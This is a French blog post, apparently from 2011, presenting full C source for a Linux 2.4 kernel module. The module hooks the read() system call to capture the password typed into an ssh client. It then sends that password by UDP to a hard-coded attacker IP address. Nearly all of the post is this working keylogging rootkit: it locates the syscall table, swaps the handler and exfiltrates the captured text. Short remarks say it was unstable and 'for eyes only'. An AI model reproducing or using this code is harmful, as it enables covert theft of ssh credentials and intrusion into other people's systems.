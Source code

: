 ```yaml
---
title: "Linux kernel 2.4 module : spy ssh client"
tags: [Coding, kernel]
---
```


Toujours dans la catégorie *oldies* comme le code précédent, l'exemple suivant permet de récupérer un mot de passe saisi depuis le client ssh et de le transmettre par UDP vers une machine distante.  

L'idée m'était venue en lançant un strace sur ssh et en remarquant que la lecture du pass se faisant caractère par caractère à l'aide de `read()` sur un périphérique tty.  

Solution : hooker l'appel système `read()` et si le processus en cours s'appelle *ssh* mettre en application tout ça :  

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/sched.h>
#include <linux/unistd.h> /* __NR_close */
#include <linux/smp_lock.h> /* unlock_kernel */
#include <linux/syscalls.h> /* sys_close */
#include <linux/types.h> /* ssize_t... */

/* j'ai pas fait le tri */
#include <linux/file.h>
#include <linux/fs.h>
#include <linux/dcache.h>

#include <linux/net.h>
#include <linux/in.h>
#include <linux/socket.h>
#include <asm/uaccess.h>
#include <linux/fs.h>

#define HACKER_IP 0xc0a80103 /* put your ip address in hexa. ex: 192.168.1.3 => 0xc0a80103 */
#define SOURCE_PORT 1337
#define DEST_PORT 53

void **sys_call_table;
static int i=0;
char passwd[41];

asmlinkage ssize_t (*orig_read)(unsigned int fd, char *buf, size_t count);

int sendUDP(char *msg)
{
  struct msghdr udpmsg;
  mm_segment_t oldfs;
  struct iovec iov;
  struct sockaddr_in sin;
  struct sockaddr_in sout;
  struct socket *udpsock;
  int err;

  if(sock_create(PF_INET, SOCK_DGRAM, 0,&udpsock)<0)return -1;
  printk(KERN_INFO "sock created\n");

  memset(&sin,0,sizeof(sin));
  sin.sin_port=htons(SOURCE_PORT);
  sin.sin_family=AF_INET;
  sin.sin_addr.s_addr=htonl(INADDR_ANY);

  if(udpsock->ops->bind(udpsock,(struct sockaddr*)&sin,sizeof(struct sockaddr))<0)
  {
    sock_release(udpsock);
    printk(KERN_INFO "bind error\n");
    return -1;
  }
  printk(KERN_INFO "bind ok\n");

  iov.iov_base=(void*)msg;
  iov.iov_len=strlen(msg);

  memset(&sout,0,sizeof(sout));
  sout.sin_port=htons(DEST_PORT);
  sout.sin_family=AF_INET;
  sout.sin_addr.s_addr=htonl(HACKER_IP);

  memset(&udpmsg, 0, sizeof(struct msghdr));
  udpmsg.msg_name=&sout;
  udpmsg.msg_namelen=sizeof(sout);
  udpmsg.msg_iovlen=strlen(msg);
  udpmsg.msg_iov=&iov;
  udpmsg.msg_control=NULL;
  udpmsg.msg_controllen=0;
  udpmsg.msg_flags=MSG_DONTWAIT|MSG_NOSIGNAL;

  oldfs=get_fs();
  set_fs(KERNEL_DS);
  err=sock_sendmsg(udpsock,&udpmsg,strlen(msg));
  printk("err=%d\n",err);
  set_fs(oldfs);
  sock_release(udpsock);

  return 0;
}

asmlinkage ssize_t my_read(unsigned int fd, char *buf, size_t count)
{
  ssize_t ret;
  struct file *f;

  ret=orig_read(fd,buf,count);
  if(strlen(current->comm)==3)
  {
    if(strncmp(current->comm,"ssh",3)==0)
    {
      if(fd>2 && count==1)
      {
        f=fget(fd);
        if(f)
        {
          if(f->f_dentry)
          {
            if(strncmp(f->f_dentry->d_name.name,"tty",3)==0)
            {
              printk("%c",buf[0]);
              passwd[i]=buf[0];
              if(i>=40)
              {
                passwd[40]='\0';
                sendUDP(passwd);
                i=0;
              }
              else if(buf[0]=='\n')
              {
                passwd[i]='\0';
                sendUDP(passwd);
                i=0;
              }
              else i++;
            }
          }
        }
      }
    }
  }
  return ret;
}

unsigned long **find_sys_call_table(void)
{
   unsigned long **sctable;
   unsigned long ptr;
   extern int loops_per_jiffy;

   sctable = NULL;
   for (ptr = (unsigned long)&unlock_kernel;
        ptr < (unsigned long)&loops_per_jiffy;
        ptr += sizeof(void *))
   {
      unsigned long *p;
      p = (unsigned long *)ptr;
      if (p[__NR_close] == (unsigned long) sys_close)
      {
         sctable = (unsigned long **)p;
         return &sctable[0];
      }
   }
   return NULL;
}

int init_module(void)
{
  printk(KERN_INFO "hook loaded\n");
  sys_call_table=(void**)find_sys_call_table();
  if(sys_call_table!=NULL)
  {
    printk(KERN_INFO "sys_call_table=%p\n",sys_call_table);
    printk(KERN_INFO "__NR_read=%d\n",__NR_read);
    printk(KERN_INFO "sys_call_table[__NR_read]=%p\n",sys_call_table[__NR_read]);
    orig_read=(asmlinkage ssize_t(*)(unsigned int,char *,size_t))(sys_call_table[__NR_read]);
    sys_call_table[__NR_read]=my_read;
  }

  return 0;
}

void cleanup_module(void)
{
  if(sys_call_table!=NULL)
  {
    sys_call_table[__NR_read]=orig_read;
  }
  printk(KERN_INFO "hook unloaded\n");
}
```

De mémoire, c'était loin d'être stable (le système finissait par planter) donc à utiliser à vos risques et périls.  

Pour les yeux uniquement comme disent certains.

*Published January 11 2011 at 17:35*
